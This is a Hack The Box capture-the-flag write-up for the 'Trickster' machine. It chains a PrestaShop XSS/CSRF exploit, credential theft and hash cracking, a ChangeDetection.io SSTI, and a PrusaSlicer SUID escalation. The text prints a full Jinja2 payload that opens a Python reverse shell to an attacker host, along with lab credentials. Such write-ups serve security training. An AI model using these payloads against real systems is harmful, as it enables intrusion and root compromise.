





# Hack The Box - Trickster


Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Trickster**. This machine starts with a PrestaShop file disclosure chain that leads to source code access and credentials, then moves into a ChangeDetection.io SSTI that gives me a foothold as `www-data`. From there, I recover more credentials and finish with a PrusaSlicer file-processing exploit that lets me escalate to root.

## Reconnaissance

I started with a full port scan to see what services were exposed on the target.

```bash
sudo nmap -sS -A -p- -o nmap 10.10.11.234
```

The scan showed SSH and HTTP:

```text
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 (Ubuntu)
```

Since Nmap already showed a redirect to `trickster.htb`, I added that domain to my hosts file before looking at the website.



## Web Enumeration

The main page described a shopping experience and linked to a shop at `shop.trickster.htb`. The shop looked like a generic PrestaShop deployment, and the footer exposed a useful email address: `admin@trickster.htb`.



A `robots.txt` file revealed something more interesting:

```text
Disallow: /.git
```

Accessing `/.git/` directly showed a bare Git repository, so I dumped it with `git-dumper`.

```bash
git-dumper http://shop.trickster.htb shop.git
```

The repository only had a single commit from `adam@trickster.htb`, and it exposed the randomized admin panel folder:

```text
/admin634ewutrx1jgitlooaj
```



That gave me the admin login path and the PrestaShop version, which was `8.1.5`.

## Initial Access

### PrestaShop XSS

The version matched a known issue, [CVE-2024-34716], which is a front-office XSS in the contact form. The exploit uses a disguised HTML file to execute JavaScript in the administrator’s browser, then uses CSRF to install a malicious theme.

The public PoC https://github.com/aelmokhtar/CVE-2024-34716/ needed a few adjustments:

- The hardcoded reverse shell IP inside `a.php` had to be replaced with my own.
- The admin path had to be updated from `/admin-dev/` to `/admin634ewutrx1jgitlooaj/`.
- The theme download URL had to point to my own HTTP server.

I also modified the exploit script itself so it would use `nc` instead of `ncat` and request the correct payload file.

After sending the malicious contact form submission, the admin viewed the attachment, the CSRF flow completed, and the malicious theme was imported. That gave me a reverse shell as `www-data`.

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### PrestaShop Credentials

PrestaShop stores database configuration in:

```text
/var/www/prestashop/app/config/parameters.php
```

That file exposed the MySQL credentials:

```text
ps_user : prest@shop_o
```

Using those credentials, I connected to the database and dumped employee hashes from `ps_employee`.

```sql
select lastname, firstname, passwd from ps_employee;
```

That revealed a hash for `james`, and it cracked to:

```text
alwaysandforever
```

I used that password to log in through SSH and get a user shell.

## Lateral Movement

### ChangeDetection.io

After logging in as `james`, I checked the running processes and saw a Docker container running `changedetection.py` as root. Based on the documentation, that matched a local deployment of **ChangeDetection.io** on port `5000`.



I confirmed the container by scanning the Docker network and finding the service on `172.17.0.2:5000`.

```bash
curl -sL 172.17.0.2:5000
```

The service presented a login page for ChangeDetection.io, and the same `james` password also worked there.

The installed version was `v0.45.20`, which matched [CVE-2024-32651] https://www.exploit-db.com/exploits/52027, a server-side template injection in notification templates that can lead to remote code execution.



### SSTI Abuse

Instead of waiting for a monitored page to change, I went straight to **Settings -> Notifications** and used the test notification feature. I set a valid URL target and inserted a Jinja2 payload in the notification body.

A working payload looked like this:

```jinja2


{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.10.10\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read()}}


```

When I sent the test notification, I received a shell as root inside the container.

## Root Path

### Backup Recovery

Inside the ChangeDetection container, the data directory was mounted at `/datastore`. That folder contained backups, including ZIP archives with older snapshots of watches and configuration files.

I extracted one of the backups and found a watched Gitea repository pointing at the PrestaShop source tree. Inside the snapshot, there was a Brotli-compressed file containing more configuration data.

After decompressing the `.br` file, I recovered another set of credentials:

```text
adam : adam_admin992
```

### PrusaSlicer Escalation

Back on the host, the user `adam` could run `/opt/PrusaSlicer/prusaslicer` with sudo. The installed version was `2.6.1`, and that version is vulnerable to [CVE-2023-47268] https://www.exploit-db.com/exploits/51983, which allows command execution through malicious 3MF files.

A 3MF archive is basically a ZIP file, and one of its config files, `Metadata/Slic3r_PE.config`, supports a `post_process` directive. I edited that value to run:

```bash
/usr/bin/chmod u+s /bin/bash
```

Then I updated the archive and ran PrusaSlicer again with the modified file.

```bash
sudo /opt/PrusaSlicer/prusaslicer -s /home/adam/TRICKSTER.3mf -o abc
```

That successfully set the SUID bit on `/bin/bash`.

```bash
ls -la /bin/bash
```

```text
-rwsr-xr-x 1 root root 1396520 Mar 14 2024 /bin/bash
```

With that in place, I launched Bash with `-p` and obtained a root shell.

## Attack Path

- **Scan the host** — identify SSH and HTTP.
- **Find the shop** — discover `shop.trickster.htb` and the `.git` exposure.
- **Dump the repository** — use `git-dumper` to recover source and admin paths.
- **Exploit PrestaShop** — abuse [CVE-2024-34716] through the contact form.
- **Gain a foothold** — get a shell as `www-data`.
- **Extract database credentials** — read `parameters.php`.
- **Dump employee hashes** — crack `james`’ password.
- **Log in as james** — use SSH and access the host.
- **Find ChangeDetection.io** — discover the Dockerized service on the internal network.
- **Exploit SSTI** — abuse [CVE-2024-32651] in notifications.
- **Recover backups** — pull configuration and archived snapshots from `/datastore`.
- **Crack the second password** — recover `adam : adam_admin992`.
- **Abuse PrusaSlicer** — use [CVE-2023-47268] in a malicious 3MF file.
- **Escalate to root** — set SUID on `/bin/bash` and spawn a privileged shell.
